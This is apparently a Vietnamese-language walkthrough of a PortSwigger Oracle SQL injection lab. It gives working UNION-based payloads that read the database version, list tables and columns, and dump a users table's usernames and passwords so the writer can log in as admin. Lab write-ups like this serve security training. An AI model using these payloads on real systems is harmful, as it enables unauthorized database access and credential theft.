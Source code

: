 ## SQL injection attack, listing the database contents on Oracle

> Bỏ qua xác định số trường có trong bảng nhé, chắc chắn là 2 cmnr :v
> Bỏ qua luôn xác định lỗi hiển thị ở đâu, vì chắc chắn nó sẽ ở dưới cùng :v

Nhưng mà database ở đây là Oracle nên chúng ta sẽ không **UNION SELECT ‘a’,’b’--** được mà phải là **UNION SELECT ‘a’,’b’ FROM DUAL--**

![](/imgs/SQL-Injection/28.png?raw=true)

Xác định phiên bản: 
> **' UNION SELECT banner,NULL FROM v$version--**

![](/imgs/SQL-Injection/29.png?raw=true)

List ra toàn bộ tên database Oracle từ [cheatsheet](https://portswigger.net/web-security/sql-injection/cheat-sheet): 
> **SELECT * FROM all_tables**

Tương tự Oracle cũng có trường **table_name** để áp dụng vào: 
> **' UNION SELECT table_name,NULL FROM all_tables--**

Trong đây sẽ có 1 bảng là **USERS_XEOUJT**, chúng ta sẽ tiến hành select ra các trường có trong bảng này.

![](/imgs/SQL-Injection/30.png?raw=true)

Câu query lấy ra tất cả các trường trong Oracle: 
> **SELECT * FROM all_tab_columns WHERE table_name = 'TABLE-NAME-HERE'**

Vì thế câu query inject vào sẽ là 
```markdown
**' UNION SELECT column_name,NULL FROM all_tab_columns WHERE table_name = 'USERS_XEOUJT'--**
```
Ta sẽ thu được 2 columns là **PASSWORD_KCZZXF** và **USERNAME_LDDGDO**

![](/imgs/SQL-Injection/31.png?raw=true)

Select dữ liệu ra: 
```markdown
**' UNION SELECT USERNAME_LDDGDO,PASSWORD_KCZZXF from USERS_XEOUJT--**
```

![](/imgs/SQL-Injection/32.png?raw=true)

Login tài khoản admin vào là solve

![](/imgs/SQL-Injection/33.png?raw=true)